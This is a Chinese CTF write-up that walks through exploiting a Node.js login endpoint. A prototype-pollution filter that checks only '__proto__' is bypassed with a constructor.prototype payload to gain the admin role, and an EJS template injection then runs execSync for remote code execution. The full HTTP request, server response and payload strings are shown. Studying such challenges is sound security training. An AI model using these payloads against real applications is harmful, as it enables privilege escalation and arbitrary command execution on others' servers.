 根据源代码中merge函数

```
function merge(target, source) {
    for (let key in source) {
        // Prevent prototype pollution
        if (key === '__proto__') {
            throw new Error("Detected Prototype Pollution")
        }
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
```

和login接口中

```
        // save userinfo to session
        let data = {};
        try {
            merge(data, req.body)
        } catch (e) {
            return res.render("login", {message: "Don't pollution my shared diary!"})
        }
```

不难发现这里因为merge导致了原型链污染，我们的目标是污染对象的role属性，使其成为`admin`，在了解原型链污染漏洞后，会很自然会想到

`{"__proto__": {"role": "admin"},"username":"ek1ng","password":"123"}`

但是这里merge时会对`__proto__`属性做检测，这里可以使用constructor.protoype来bypass 对于`__proto__`的waf，灵感来自于lodash的CVE-2019-10744中的绕过技巧，lodash也是因为只检测了`__proto__`属性，在lodash.merge中就有这种类似的方法可以绕过。

```
POST /login HTTP/1.1
Content-Type: application/json
Host: localhost:8888

{"constructor": {"prototype": {"role": "admin"}},"username":"ek1ng","password":"123"}
```

得到响应

```
HTTP/1.1 302 Found
X-Powered-By: Express
Location: /
Vary: Accept
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=s%3AhoHS3GiWTRM8GDtDpYSMKKbES5JLehkp.8dRxdwLFQ8f9vW9kW75CM9C9aTYLakaldJbwne61DmA; Path=/; HttpOnly
Date: Mon, 30 Jan 2023 06:47:14 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 23

Found. Redirecting to /
```

这样构造就可以成功污染原型链，拿到session.role为admin的session。

这里可以本地调试看一下污染后的session的原型链

![image-20230130144906545](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/202301301449648.png)

这里需要注意污染后再之后去正常的登陆请求，都会因为merge函数抛出异常（并不是检测到__proto__属性，而是这样写法的merge函数会在原型链被污染后无法正常merge，会抛出异常，可以打个断点调试一下）而被认为是检测到原型链污染。这里是希望选手能够在本地有自己搭建环境并且进行调试的能力，不然可能做起来会比较困难，很难知道是否能够成功污染原型链。

之后是一个ejs ssti ，可以插入`<%- %>`标签来执行任意js，能够直接完成RCE。

`<%- global.process.mainModule.require('child_process').execSync('cat /flag') %>`

![image-20230130010137313](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/202301300101429.png)
